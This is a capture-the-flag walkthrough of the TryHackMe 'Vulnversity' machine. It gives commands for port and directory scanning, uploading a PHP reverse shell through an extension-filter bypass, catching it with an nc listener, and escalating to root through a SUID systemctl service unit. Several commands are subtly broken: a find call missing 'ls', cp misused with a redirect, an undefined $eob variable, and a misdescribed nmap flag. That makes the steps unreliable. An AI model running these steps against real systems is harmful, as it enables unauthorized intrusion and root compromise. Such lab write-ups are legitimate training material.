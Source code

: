 ```yaml
---
title: 'Vulnversity - TryHackMe Walkthrough'
date: 2020-06-24 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Focuses on active recon, Web app attacks and privilege escalation.
---
```



### Goal  
Focuses on active recon, Web app attacks and privilege escalation

### Reconnaissance
Gathering information about the machine using tools such as nmap.
Always perform reconnaissance thoroughly before progressing.

#### Nmap

    nmap -v -A -sV -sC -A -p- -Pn -oN nmap.out 10.10.228.44

-A : Aggressive Scan and provides OS and Version Detection  
-sV : Discovers the Services with their versions  
-sC: Scan with default nmap scripts  
-p-: Scan all 65535 ports  
-Pn: Disable the host discovery and perform only scan on open ports  
-oN: Save the output in a file  

*Result:*
- The target has below ports open
- Operating System: Ubuntu
- Services:
	 - HTTP - 3333
	 - SSH - 22

### Scanning HTTP service
Using dirb scan the HTTP service to find the directories.

`dirb http://10.10.228.44:3333/ /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

*Result*
```
    GENERATED WORDS: 87568      
    ---- Scanning URL: http://10.10.228.44:3333/ ----  
    ==> DIRECTORY: http://10.10.228.44:3333/images/    
    ==> DIRECTORY: http://10.10.228.44:3333/css/  
    ==> DIRECTORY: http://10.10.228.44:3333/js/  
    ==> DIRECTORY: http://10.10.228.44:3333/fonts/   
    ==> DIRECTORY: http://10.10.228.44:3333/internal/  
```
Navigated to these directories and found `/internal/` is hosting a upload page.

### Getting a reverse shell
- Using Burp, found the site is accepting the phtml extension in upload page.
- Using the [exploit](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), configured the listening host and port and uploaded the php reverse shell code to the target.
- Opened the netcat on the listening host and port.
  `nc -nlvp 4444`
- Execute the uploaded file by navigating to `/internal/uploads/` and the reverse shell connection is established.

### Privilege Escalation

 - Found the server has mis-configuration with setuid bit on /bin/systemctl:  
 `find / -perm /4000 -type f -exec -ld {} \; 2>/dev/null`
 - Created a new service by:

```bash
$ echo '[Service]  
  ExecStart=/bin/sh -c "cp /root/root.txt > /tmp/flag.txt"  
  [Install]  
  WantedBy=multi-user.target' > $eob  
```

- Started the service:
```bash
    $ /bin/systemctl link $eob
    $ /bin/systemctl enable --now $eob
```
- The file was written to desired file in /tmp and thus able to escalate the privileges to root id.
